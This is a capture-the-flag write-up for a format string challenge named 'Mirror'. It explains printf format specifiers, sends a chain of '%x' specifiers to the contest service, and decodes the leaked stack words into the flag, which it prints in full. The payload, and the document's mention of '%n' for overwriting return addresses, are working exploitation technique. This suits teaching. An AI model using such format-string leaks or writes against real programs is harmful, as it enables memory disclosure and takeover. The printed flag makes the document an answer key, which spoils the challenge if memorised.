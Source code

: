 # Challenge Name - Mirror

## Challenge Description

The program prints exactly what we input.  

**Connection**: `nc codefest-ctf.iitbhu.tech 57917`

## Approach
The challenge hints at a **Format String Vulnerability** in a C program. When user input is directly passed to functions like `printf` without proper formatting, attackers can exploit this to read or write arbitrary memory locations. The goal is to leak the flag from the program's memory using this vulnerability.

### What is a Format String Vulnerability?
In C, functions like `printf` use format specifiers (e.g., `%d`, `%s`, `%x`) to determine how to print data. If a program passes user-controlled input directly to `printf` without validation, an attacker can inject format specifiers to:
- Read values from the stack (`%x`, `%p`, `%s`).
- Write to arbitrary memory addresses (`%n`).

For example, sending `%x` repeatedly forces the program to print values from the stack in hexadecimal format. These values may include memory addresses, return addresses, or even parts of the flag stored in memory.

| Parameter | Output                                 | Passed as | Use Case in Exploitation                                                          |
| --------- | -------------------------------------- | --------- | --------------------------------------------------------------------------------- |
| `%%`      | Literal `%` character                  | -         | Escapes a `%` symbol (e.g., `%%n` prints `%n`)                                    |
| `%p`      | Pointer address (void*)                | Reference | Leak memory addresses from the stack                                              |
| `%d`      | Signed decimal integer                 | Value     | Read integers from the stack                                                      |
| `%c`      | Character                              | Value     | Read ASCII characters from the stack                                              |
| `%u`      | Unsigned decimal integer               | Value     | Read unsigned integers from the stack                                             |
| `%x`      | Hexadecimal value (lowercase)          | Value     | **Most common**: Leak hex values from the stack (as seen in the Mirror challenge) |
| `%s`      | String                                 | Reference | Read string from a memory address (crash if invalid!)                             |
| `%n`      | **Write** number of bytes to a pointer | Reference | Dangerous: Overwrite memory (e.g., modify return addresses)                       |

For more info, read here - [Format String Exploit](https://github.com/HackTricks-wiki/hacktricks/tree/master/src/binary-exploitation/format-strings)

---

## Step-by-Step Explanation

### Step 1: Trigger the Vulnerability
We start by connecting to the service and sending a payload of `%x` separated by dots. Each `%x` will print a 4-byte value from the stack in hexadecimal.

```bash
┌──(kali㉿kali)-[~/Desktop/tmp]
└─$ nc codefest-ctf.iitbhu.tech 57917


 ███╗   ███╗██╗██████╗ ██████╗  ██████╗ ██████╗ 
 ████╗ ████║██║██╔══██╗██╔══██╗██╔═══██╗██╔══██╗
 ██╔████╔██║██║██████╔╝██████╔╝██║   ██║██████╔╝
 ██║╚██╔╝██║██║██╔══██╗██╔══██╗██║   ██║██╔══██╗
 ██║ ╚═╝ ██║██║██║  ██║██║  ██║╚██████╔╝██║  ██║
 ╚═╝     ╚═╝╚═╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═╝

Enter whatever you want, and it will spit it out exactly the same!
```

**Payload Sent**:
```
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
```

**Output**:
```
64.f3e2f580.64f032ce.afff.f63d4e2e.65646f43.74736566.7b465443.6d723066.355f7434.6e317237.336c5f67.315f6b34.68625553.7d514570.a.1.252e7825.78252e78...
```

![Cyberchef](Resources/image1.png)

### Step 2: Identify Relevant Hex Values
From the output, we focus on the hex values that appear meaningful. In this case, the following chunks stand out:
```
65646f43.74736566.7b465443.6d723066.355f7434.6e317237.336c5f67.315f6b34.68625553.7d514570
```

![Little Endian](Resources/image2.png) 

### Step 3: Decode Hex to ASCII
Each 8-character hex chunk represents 4 bytes of data stored in **little-endian** format (reverse order). To decode:
1. Split the hex string into pairs of two characters (bytes).
2. Reverse the order of the pairs.
3. Convert each pair to its ASCII equivalent.

**Example**:
- Take `65646f43`:
  - Split into pairs: `65`, `64`, `6f`, `43`.
  - Reverse order: `43`, `6f`, `64`, `65`.
  - Convert to ASCII: `C`, `o`, `d`, `e` → **"Code"**.

### Step 4: Process All Chunks
Repeat the process for all hex values:

| Hex Chunk | Reversed Bytes | ASCII Decoded |
| --------- | -------------- | ------------- |
| 65646f43  | 43 6f 64 65    | Code          |
| 74736566  | 66 65 73 74    | fest          |
| 7b465443  | 43 54 46 7b    | CTF{          |
| 6d723066  | 66 30 72 6d    | f0rm          |
| 355f7434  | 34 74 5f 35    | 4t_5          |
| 6e317237  | 37 72 31 6e    | 7r1n          |
| 336c5f67  | 67 5f 6c 33    | g_l3          |
| 315f6b34  | 34 6b 5f 31    | 4k_1          |
| 68625553  | 53 55 62 68    | SUbh          |
| 7d514570  | 70 45 51 7d    | pEQ}          |

OR

If you can't manually, Just use the `Swap Endianess` recipe on Cyberchef with word length as 4 becuase we have 4 characters between each `.` 

![Flag](Resources/image3.png)

### Step 5: Combine the Results
Concatenating all decoded parts gives the flag:
```
CodefestCTF{f0rm4t_57r1ng_l34k_1SUbhpEQ}
```
---

## Flag
`CodefestCTF{f0rm4t_57r1ng_l34k_1SUbhpEQ}`

---


